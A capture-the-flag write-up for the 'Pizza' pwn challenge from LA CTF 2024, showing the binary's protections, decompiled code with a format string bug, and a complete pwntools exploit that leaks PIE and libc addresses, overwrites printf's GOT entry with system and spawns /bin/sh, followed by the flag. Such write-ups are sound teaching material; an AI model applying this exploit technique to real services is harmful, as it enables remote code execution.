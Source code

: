 ```yaml
---
title: Pizza
date: 2024-02-22T01:41:59+02:00
description: Writeup for Pizza [LA CTF 2024]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

yummy

## Intuition

We are given an ELF 64-bit binary, with the following protections:

```
$ checksec pizza
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   44 Symbols	  No	0		2		pizza
```

We can see it has partial RELRO and no canary, which suggests buffer overflow and GOT overwrite can be done. After opening it in Ghidra we can see it is a format string vulnerability.
```c
undefined8 main(void)

{
  char local_148 [300];
  int local_1c;
  char local_15;
  int local_14;
  int local_10;
  uint local_c;
  
  setbuf(stdout,(char *)0x0);
  puts("Welcome to kaiphait\'s pizza shop!");
  do {
    puts("Which toppings would you like on your pizza?");
    for (local_c = 0; (int)local_c < 0xc; local_c = local_c + 1) {
      printf("%d. %s\n",(ulong)local_c,*(undefined8 *)(available_toppings + (long)(int)local_c * 8))
      ;
    }
    printf("%d. custom\n",0xc);
    for (local_10 = 0; local_10 < 3; local_10 = local_10 + 1) {
      printf("> ");
      __isoc99_scanf("%d",&local_1c);
      if ((local_1c < 0) || (0xc < local_1c)) {
        printf("Invalid topping");
        return 1;
      }
      if (local_1c == 0xc) {
        printf("Enter custom topping: ");
        __isoc99_scanf(" %99[^\n]",local_148 + (long)local_10 * 100);
      }
      else {
        strcpy(local_148 + (long)local_10 * 100,*(char **)(available_toppings + (long)local_1c * 8))
        ;
      }
    }
    puts("Here are the toppings that you chose:");
    for (local_14 = 0; local_14 < 3; local_14 = local_14 + 1) {
      printf(local_148 + (long)local_14 * 100);
      putchar(10);
    }
    puts("Your pizza will be ready soon.");
    printf("Order another pizza? (y/n): ");
    __isoc99_scanf(" %c",&local_15);
  } while (local_15 == 'y');
  return 0;
}
```
We can select a custom topping and then use it as a format string payload. The plan to exploit this particular binary is to leak the PIE address and libc base and then overwrite the printf function with system.

## Solution

There's not much interesting things going on in this particular solution. It's a standard leak into GOT overwrite.

```py
#!/usr/bin/env python3

from pwn import *

def send_custom_topping(topping):
    target.sendlineafter(b"> ", b"12")
    target.sendlineafter(b"Enter custom topping: ", topping)


is_remote = True
if is_remote:
    target = remote("chall.lac.tf", 31134) 
else:
    context.binary = bin = ELF("./pizza")
    libc = ELF("./libc.so.6")
    ld = ELF("./ld-linux-x86-64.so.2")

    target = process([ld.path, bin.path], env={"LD_PRELOAD": libc.path})
    #target = process("./pizza")

pie_offset = 0x1189
printf_offset_pie = 0x4020

if is_remote:
    system_offset = 0x04c490
    libc_offset = 0x2724a
else:
    system_offset = 0x50d70 
    libc_offset = 0x29d90

send_custom_topping(b"%49$p")
send_custom_topping(b"%47$p")
send_custom_topping(b"sunbather from .hidden pwning")

target.recvline()
pie_base = int(target.recvline(), 16) - pie_offset
libc_base = int(target.recvline().strip(), 16) - libc_offset
print(hex(pie_base), hex(libc_base))
print(target.recvline())

system_addr = p64(libc_base + system_offset)

# Prepare the bytes to be written
x = int.from_bytes(system_addr[:2], byteorder='little')
y = int.from_bytes(system_addr[2:4], byteorder='little')

print(system_addr, hex(u64(system_addr)))

target.sendlineafter(b"Order another pizza? (y/n): ", b"y")

printf = pie_base + printf_offset_pie
# find offsets with gdb and trial and error
payload = "%{}c%22$hn%{}c%23$hn".format(x, y-x).encode() 
payload = payload + b"A" * 2 + p64(printf) + p64(printf + 2)
print(payload)
# Overwrite printf with system
send_custom_topping(b"say cheese!")
send_custom_topping(payload)
send_custom_topping(b"/bin/sh")

target.interactive()
```

### Flag

``lactf{golf_balls_taste_great_2tscx63xm3ndvycw}``
